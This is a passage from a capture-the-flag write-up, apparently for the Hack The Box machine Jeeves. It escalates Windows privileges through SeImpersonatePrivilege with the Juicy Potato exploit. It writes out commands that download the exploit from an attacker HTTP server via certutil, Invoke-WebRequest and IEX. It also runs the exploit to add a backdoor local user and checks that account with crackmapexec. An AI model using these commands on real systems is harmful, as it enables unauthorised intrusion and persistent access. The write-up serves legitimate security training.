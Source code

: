 If we search the system for the security privileges of the user we are connected to, we find the `SeImpersonatePrivilege` ([Impersonate a client after authentication](https://learn.microsoft.com/es-es/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege){:target="_blank"}) which will allow us to escalate privileges. If we search the internet for **set impersonate privilege exploit** we find a page, [Impersonating Privileges with Juicy Potato](https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505){:target="_blank"}, where we can find information on how to exploit this privilege. I download the **[Juicy Potato](https://github.com/ohpe/juicy-potato/){:target="_blank"}** exploit and try to [download it to the victim machine](https://www.hackingarticles.in/file-transfer-cheatsheet-windows-and-linux/){:target="_blank"} in several ways until I succeed.

> **Juicy potato** is basically a weaponized version of the **RottenPotato** exploit that exploits the way Microsoft handles tokens. Through this, we achieve privilege escalation.

```bash
python3 -m http.server 80
```

```cmd
certutil.exe -f -urlcache -slip http://10.10.14.6/jp.exe                                    # :(
IWR -uri http://10.10.14.6/jp.exe -OutFile jp.exe                                           # :(
powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.6/jp.exe')         # :(
```

<br/>
<img src="{{ site.img_path }}/jeeves_writeup/Jeeves_20.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/jeeves_writeup/Jeeves_21.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/jeeves_writeup/Jeeves_22.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

I realize that I am executing the commands wrong, as I am in a **`cmd`** console and not a **`powershell`**. I run the command correctly and I have the `JuicyPotato` executable on the victim machine. I check that the exploit works correctly and I can now follow the steps to achieve privilege escalation, first I must [create a user to a Window PC](https://www.wikihow.com/Add-Users-from-CMD){:target="_blank"}, and I check that the command I passed to the exploit has been executed, with `crackmapexec` I can also corroborate the existence of the created user.

```cmd
powershell iwr -uri http://10.10.14.6/jp.exe -OutFile jp.exe
./jp.exe

jp.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user olboy oldboy123 /add"
net user
# :)
```

```bash
poetry run crackmapexec smb 10.10.10.63 -u 'oldboy' -p 'oldboy123'
```
